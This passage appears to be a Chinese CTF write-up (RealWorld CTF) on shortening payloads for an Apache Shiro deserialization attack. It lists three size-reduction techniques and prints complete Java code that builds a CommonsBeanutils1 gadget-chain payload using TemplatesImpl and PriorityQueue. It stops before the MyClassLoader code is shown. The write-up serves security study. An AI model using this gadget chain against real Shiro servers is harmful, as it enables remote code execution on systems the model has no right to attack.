 #### 如何简化请求头

在 rwctf wp 当中所给出的两个参考文章

[https://mp.weixin.qq.com/s?\_\_biz=Mzk0MTIzNTgzMQ==&mid=2247489588&idx=1&sn=0aa89b8828dc3e058ddbef69e2980790&chksm=c2d4d32cf5a35a3a54d164198cf7a29bea915a8c0e00d76d47231090cec35630f393ecd5d89d&scene=21](https://mp.weixin.qq.com/s?__biz=Mzk0MTIzNTgzMQ==&mid=2247489588&idx=1&sn=0aa89b8828dc3e058ddbef69e2980790&chksm=c2d4d32cf5a35a3a54d164198cf7a29bea915a8c0e00d76d47231090cec35630f393ecd5d89d&scene=21#wechat_redirect)

[https://xz.aliyun.com/t/6227](https://xz.aliyun.com/t/6227)

其中的参考文章主要的内容是三种缩减的方式（除分片传输以外）。

第一种，是通过减少 payload 本身字符串当中的一些内容，将涉及到字符串的部分都压缩到最少。

第二种使用 javassist 动态生成字节码，将需要使用的代码段放在字符串对象当中，然后使用 javassist 动态创建一个类。

第三种使用 ASM 删除 LINENUMBER 指令。

针对第一种手段我们能够改变逻辑的部分在于 CB 链 payload 的生成代码以及 MyClassLoader 的异常处理部分，就像参考文章当中给出的我们可以减少 TemplatesImpl 当中的`_name`字段的值，以及整个`_factory`字段。最终 CB 链的 payload 如下

```plain
public class CommonsBeanutils1Shiro {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public byte[] getPayload(byte[] clazzBytes) throws Exception {
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{clazzBytes});
        setFieldValue(obj, "_name", "t");

        final BeanComparator comparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);

        queue.add("1");
        queue.add("1");

        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{obj, obj});

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();

        return barr.toByteArray();
    }
}
```

MyClassLoader 的代码如下（仅仅改了异常处理，将异常处理设为忽略）：
